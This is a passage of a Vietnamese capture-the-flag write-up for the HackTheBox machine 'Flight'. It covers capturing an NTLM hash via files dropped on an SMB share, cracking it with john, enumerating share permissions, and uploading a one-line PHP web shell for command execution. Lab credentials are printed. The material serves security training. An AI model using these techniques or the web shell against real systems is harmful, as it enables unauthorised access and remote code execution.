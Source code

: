 Bên trong dấu ngoặc đơn, tool thông báo cho biết hành động nào là cần thiết để kích hoạt file. Bắt đầu bằng cách tập trung vào những file yêu cầu ít tương tác nhất, chỉ bằng cách browse đến folder đó.

Bước tiếp theo là upload tất cả các file có yêu cầu `(BROWSE TO FOLDER)` lên share `Share`.

```
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb

use Shared

put "NAME_OF_THE_FILE"
```

![alt text](image-14.png)

Sau một số lần thử và sai, có thể thấy rằng chỉ những file có extension `.ini` mới được phép share. Nhưng không lâu sau, sẽ nhận được hash từ `responder`.

![alt text](image-15.png)

Thử crack hash của user `c.bum` bằng `john` một lần nữa.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![alt text](image-16.png)

Hash đã crack thành công: `Tikkycoll_431012284`.

Một lần nữa, xem những đặc quyền mới nào với user này trên SMB.

```
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284'
```

![alt text](image-17.png)

Đã có quyền WRITE vào share `Web`.

Trước khi tiến hành khai thác, lấy user flag từ share `Users/C.bum/Desktop`.

![alt text](image-18.png)

## Privilege Escalation

Bây giờ, xem bên trong shre `Web` có quyền `WRITE`.

![alt text](image-19.png)

Có vẻ như có quyền write vào root folder web của `flight.htb` và `school.flight.htb`. Upload lên một shell PHP rất đơn giản để có thể thực thi mã trên machine.

```
<?php
echo system($_GET['c']);
>
```
